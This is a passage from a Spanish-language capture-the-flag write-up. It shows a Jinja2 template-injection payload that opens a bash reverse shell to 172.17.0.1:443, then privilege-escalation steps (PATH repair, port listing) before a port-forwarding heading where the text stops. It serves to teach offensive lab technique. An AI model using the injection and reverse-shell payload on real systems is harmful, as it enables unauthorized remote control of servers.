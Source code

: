 ![Id](images/buffered/id.png)

ahora simplemente nos ponemos en escucha con netcat por el puerto 443 y enviamos una consola interactiva:

```css
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/172.17.0.1/443 0>&1"').read() }}
```

# Escalada de Privilegios

### Wilson

Una vez estamos como wilson, la variable PATH está mal puesta, ya que si nos fijamos veremos que es la siguiente:

```css
wilson@90accd52b14f:~$ echo $PATH
echo $PATH
/home/wilson/.local/bin
wilson@90accd52b14f:~$ 
```

viendo esto pondremos la variable PATH de nuestro host:

```css
export PATH=/root/.local/bin:/snap/bin:/usr/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/share/games:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

y ahora si podremos hacer el tratamiento de la tty.

Estando dentro, revisamos los puertos abiertos de la máquina con `ss -tulunp`  y podremos ver que el puerto 5555 está abierto. Además, podemos saber que es una web ya que si ejecutamos curl desde la máquina a `127.0.0.1:5555` veremos código html.

### Port Forwarding
